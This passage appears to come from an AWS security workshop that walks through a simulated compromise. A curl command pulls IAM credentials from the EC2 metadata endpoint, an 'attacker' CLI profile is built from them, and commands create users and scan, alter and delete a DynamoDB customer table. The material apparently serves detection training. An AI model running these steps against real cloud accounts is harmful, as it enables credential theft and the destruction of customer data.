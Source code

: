     ```
    curl http://169.254.169.254/latest/meta-data/iam/security-credentials/Security-Workshop-EC2-Compromised
    ```
5. Make note of the **AccessKeyID**, **SecretAccessKey**, and **Token**.

### Create a new AWS CLI profile on your laptop to use the IAM temporary credentials 

Now that you have retrieved the IAM temporary security credentials you will need to add them to an AWS CLI profile. There are a number of ways to do this, but below are some commands to help get you started:

From a command prompt, run the following commands (replace the variables with your credentials):
```
aws configure set profile.attacker.region eu-west-2
aws configure set profile.attacker.aws_access_key_id <access_key>
aws configure set profile.attacker.aws_secret_access_key <secret_key>
aws configure set profile.attacker.aws_session_token <session_token>
```

If you view your local aws credentials file, you should now see an [attacker] profile with the stolen IAM temporary credentials.

### Run commands using the IAM temporary credentials

Now that you have your named profile you can use it to make API calls. Use the commands below to query different services to see what you have access to (don't be surprised if you see some access denied responses):

**Do you have any IAM permissions:**
```
aws iam get-user --profile attacker

aws iam create-user --user-name Chuck --profile attacker
```

**What about DynamoDB?**
```
aws dynamodb list-tables --profile attacker

aws dynamodb describe-table --table-name GuardDuty-Example-Customer-DB --profile attacker
```

**Can you query the data?**
```
aws dynamodb scan --table-name GuardDuty-Example-Customer-DB --profile attacker

aws dynamodb put-item --table-name GuardDuty-Example-Customer-DB --item '{"name":{"S":"Joshua Tree"},"state":{"S":"Michigan"},"website":{"S":"https://www.nps.gov/yell/index.htm"}}' --profile attacker

aws dynamodb scan --table-name GuardDuty-Example-Customer-DB --profile attacker

aws dynamodb delete-table --table-name GuardDuty-Example-Customer-DB --profile attacker

aws dynamodb list-tables --profile attacker
```
